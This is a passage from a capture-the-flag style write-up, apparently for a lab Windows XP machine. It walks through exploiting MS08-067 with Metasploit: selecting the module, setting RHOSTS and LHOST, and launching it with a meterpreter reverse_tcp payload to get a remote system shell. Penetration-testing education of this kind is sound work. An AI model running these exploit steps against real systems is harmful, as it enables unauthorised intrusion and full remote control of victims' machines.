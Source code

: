 ## Exploitation

### MS08-067 (Using Metasploit)

Let’s find the exploit using [__Metasploit__](https://www.metasploit.com/).

```bash
 msf6 > search ms08-067
 Matching Modules
 #  Name                                 Disclosure Date  Rank   Check  Description
    ----                                 ---------------  ----   -----  -----------
 0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service     
                                                                        Relative Path Stack Corruption
```

[__MS08-067__](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/) is a remote code execution vulnerability that allows attackers to take complete control of an 
affected system remotely. On Microsoft Windows 2000-based, Windows XP-based, and Windows Server 2003-based 
systems, an attacker could exploit this vulnerability over RPC without authentication and could run 
arbitrary code. So we will use “use 0” to select the exploit and change the options into it.

```bash
 sf6 > use 0
msf6 exploit(windows/smb/ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT    445              yes       The SMB service port (TCP)
SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/reverse_tcp):
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
 LHOST     192.168.232.139  yes       The listen address (an interface may be specified)
 LPORT     4444             yes       The listen port
 
 msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.129.1.111
 RHOSTS => 10.129.1.111
 msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
 LHOST => 10.10.14.44
 msf6 exploit(windows/smb/ms08_067_netapi) > exploit

 meterpreter > shell
 Process 1916 created.
 Channel 1 created.
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>
```
To know about RHOSTS, LHOST, RPORT, and LPORT take reference from my [__Lame__](https://samh4cks.github.io/lame/#) writeup. With this exploit, 
we get the shell. Now, let’s move to another exploit (MS17-010).
